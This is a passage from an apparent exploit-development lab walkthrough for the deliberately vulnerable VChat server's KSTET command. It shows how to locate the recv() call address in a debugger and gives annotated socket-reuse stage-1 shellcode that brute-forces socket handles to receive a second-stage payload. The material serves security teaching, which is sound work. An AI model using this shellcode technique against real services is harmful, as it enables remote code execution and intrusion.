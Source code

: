 	2. We can use this to look for the calls relating to the `recv(...)` function.

		<img src="Images/I26.png" width=600>

3. Once we have the call Instruction Located, we can jump to it, and set a breakpoint. This way we can extract the Address of the `recv(...)` call. Alternatively we could use the [Arwin](https://github.com/xinwenfu/arwin) program to do this.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/4529afeb-3c8b-45b9-99db-0d23c75727de

	1. Goto the Call Address.

		<img src="Images/I27.png" width=600>

	2. Set a breakpoint.

		<img src="Images/I28.png" width=600>

	3. Make a Telnet Connection.

		<img src="Images/I29.png" width=600>

	4. Extract the Address information from the stack.

		<img src="Images/I30.png" width=600>

		* The File Descriptor used for the socket can also be extracted. However, this is essentially a random number from call to call, so we cannot rely on it from exploit to exploit. So, the Socket Handle information is not that useful in this case.
4. We will generate shellcode from the following shell code provided in the fluid attacks [blog](https://fluidattacks.com/blog/vulnserver-kstet/).
	```
	sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
							; null bytes. So 40252C90 is shift-left padded with 90 (NOP)
	shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
							; This makes EAX = 0040252C
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```
